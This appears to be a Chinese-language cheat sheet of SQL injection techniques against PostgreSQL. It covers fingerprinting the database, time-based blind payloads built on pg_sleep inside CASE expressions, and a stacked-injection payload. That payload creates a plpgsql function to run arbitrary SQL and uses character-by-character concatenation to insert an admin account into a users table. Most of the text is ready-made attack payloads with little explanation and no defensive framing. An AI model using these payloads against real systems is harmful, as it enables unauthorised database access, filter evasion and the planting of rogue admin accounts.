



# PostgreSQL注入

#### 判断：

```sql
--可以注释，#不可注释，则不是mysql
利用exp(999999)构造报错，可判断是PostgreSQL
或者测试延时盲注 利用pg_sleep()

```

#### like注入：

```sql
LIKE 子句中，通常与通配符结合使用，通配符表示任意字符
• 百分号 % 相当于 *
• 下划线 _ 相当于 ?
ESCAPE用于指定转义符：
  select 'abc%cff' like 'abc-%cf' escape '-';
  #将-指定为转义符即可继续匹配
```

#### group\_concat:

PostgreSQL中并没有group\_concat()这个函数

```sql
聚合函数 array_agg()  string_agg()
  常常与array_to_string()搭配作用相当于join
  string_agg(expression, delimiter) 直接把一个表达式变成字符串

```



#### 延时：

pg\_sleep(5)

方式：

select xxx from pg\_sleep() 可以延时 并返回xxx

```sql
1.select 1=(case when (1=1) then (select 1 from pg_sleep(3)) else 0 end);
2.select * from users where id = 1 and 'a'=(case when (1=1) then pg_sleep(5)::VARCHAR else 'a' end)
3.select * from users where id = 1 and 'a'=(case when (1=1) then pg_sleep(5)||'b' else 'a' end)
  #在该数据库中||代表字符串拼接

```

#### 文件操作：

略





#### 堆叠注入：

```sql
create function ddkkk(bd text) returns integer as$$ BEGIN execute bd; 
return 1; END; $$ language plpgsql;
select ddkkk('i'||'n'||'s'||'e'||'r'||'t'||' '||'i'||'n'||'t'||'o'||''||'users(username, p'||'a'||'s'||'sword)'||' values(''admin'',''adddd'');');
COMMIT; select 'asdfasdf'::integer; --

```
